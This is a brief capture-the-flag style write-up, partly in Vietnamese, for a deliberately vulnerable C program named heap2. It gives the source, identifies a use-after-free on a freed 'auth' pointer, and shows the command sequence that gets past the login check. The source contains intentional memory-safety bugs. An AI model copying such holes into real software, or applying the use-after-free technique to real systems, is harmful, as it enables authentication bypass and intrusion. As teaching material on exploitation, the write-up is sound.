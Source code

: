 # **heap2**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;
    
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if(strncmp(line, "login", 5) == 0) {
      if(auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```

## Vulnerability
dangling pointer: tuy free(auth) nhưng con trỏ auth vẫn trỏ tới vùng đã được free.
## Exploit
- Cấp phát vùng nhớ cho auth:
```
auth 
[ auth = 0x804c008, service = (nil) ]
```
- free auth:
```
reset
[ auth = 0x804c008, service = (nil) ]
```
- Cấp phát vùng nhớ cho service, kèm theo một string dài để lúc cấp phát có copy vô đây luôn:
```
service AAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c008, service = 0x804c018 ]
```
- Thử login:
```
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```
- Thành công, do hiện tại auth->auth đang trỏ tới một chỗ của ở service.
# References
- dangling pointer: https://en.wikipedia.org/wiki/Dangling_pointer